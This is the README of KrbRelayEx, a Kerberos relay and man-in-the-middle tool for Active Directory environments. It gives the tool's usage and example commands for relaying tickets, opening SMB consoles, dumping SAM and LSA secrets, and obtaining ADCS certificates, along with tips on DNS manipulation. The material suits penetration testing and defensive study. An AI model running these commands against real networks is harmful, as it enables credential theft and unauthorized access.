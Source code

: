 # KrbRelayEx

![Version](https://img.shields.io/badge/version-1.0-blue)  
Kerberos Relay and Forwarder for (Fake) SMB MiTM Server  
Created by [@decoder_it](https://github.com/decoder-it)

---

## Overview

**KrbRelayEx** is a tool designed for performing Man-in-the-Middle (MitM) attacks by relaying Kerberos AP-REQ tickets. It listens for incoming SMB connections and forwards the AP-REQ to the target host, enabling access to SMB shares or HTTP AD CS (Active Directory Certificate Services) endpoints.  

The tool can span several SMB consoles, and the relaying process is completely transparent to the end user, who will seamlessly access the desired share.  

GitHub Repository: [https://github.com/decoder-it/KrbRelayEx](https://github.com/decoder-it/KrbRelayEx)  
Credits: [cube0x0/KrbRelay](https://github.com/cube0x0/KrbRelay)

---

## Features

- Relay Kerberos AP-REQ tickets to access SMB shares or HTTP ADCS endpoints.
- Interactive or background SMB consoles for managing multiple connections.
- Supports dumping SAM & LSA secrets.
- Transparent relaying process for seamless user access.
- Flexible attack configurations with support for SSL and port redirection.

---

## Usage

```
        #############      KrbRelayEx by @decoder_it     ##############
        # Kerberos Relay and Forwarder for (Fake) SMB MiTM Server     #
        # v1.0 2024                                                   #
        # Github: https://github.com/decoder-it/KrbRelayEx            #
        # Credits: https://github.com/cube0x0/KrbRelay                #
        ###############################################################

Description:
  KrbRelayEx is a tool designed for performing Man-in-the-Middle (MitM) attacks and relaying Kerberos AP-REQ tickets.
  It listens for incoming SMB connections and forward the AP-REQ to the target host, enabling access to SMB shares or HTTP ADCS (Active Directory Certificate Services endpoints)
  The tool can span several SMB consoles, and the relaying process is completely transparent to the end user, who will seamlessly access the desired share.

Usage:
  KrbRelayEx.exe -spn <SPN> [OPTIONS] [ATTACK]

SMB Attacks:
  -console                       Start an interactive SMB console
  -bgconsole                     Start an interactive SMB console in background via sockets
  -list                          List available SMB shares on the target system
  -bgconsolestartport            Specify the starting port for background SMB console sockets (default: 10000)
  -secrets                       Dump SAM & LSA secrets from the target system

HTTP Attacks:
  -endpoint <ENDPOINT>           Specify the HTTP endpoint to target (e.g., 'CertSrv')
  -adcs <TEMPLATE>               Generate a certificate using the specified template

Options:
  -redirectserver <IP>           Specify the IP address of the target server for the attack
  -ssl                           Use SSL transport for secure communication
  -spn <SPN>                     Set the Service Principal Name (SPN) for the target service
  -redirectports <PORTS>         Provide a comma-separated list of additional ports to forward to the target (e.g., '3389,135,5985')
  -smbport <PORT>                Specify the SMB port to listen on (default: 445)

Examples:
  Start an interactive SMB console:
    KrbRelay.exe -spn SMB/target.domain.com -console -redirecthost <ip_target_host>

  List SMB shares on a target:
    KrbRelay.exe -spn SMB/target.domain.com -list

  Dump SAM & LSA secrets:
    KrbRelay.exe -spn SMB/target.domain.com -secrets -redirecthost <ip_target_host>

  Start a background SMB console on port 10000 upon relay:
    KrbRelay.exe -spn SMB/target.domain.com -bgconsole -redirecthost <ip_target_host>

  Generate a certificate using ADCS with a specific template:
    KrbRelay.exe -spn HTTP/target.domain.com -endpoint CertSrv -adcs UserTemplate-redirecthost <ip_target_host>

  Relay attacks with SSL and port forwarding:
    KrbRelay.exe -spn HTTP/target.domain.com -ssl -redirectserver 192.168.1.50 -redirectports 3389,5985

Notes:
  - KrbRelayEx intercepts and relays the first authentication attempt,
    then switches to forwarder mode for all subsequent incoming requests.
    You can press any time 'r' for restarting relay mode

  - This tool is particularly effective if you can manipulate DNS names. Examples include:
    - Being a member of the DNS Admins group.
    - Having zones where unsecured DNS updates are allowed in Active Directory domains.
    - Gaining control over HOSTS file entries on client computers.

  - Background consoles are ideal for managing multiple SMB consoles
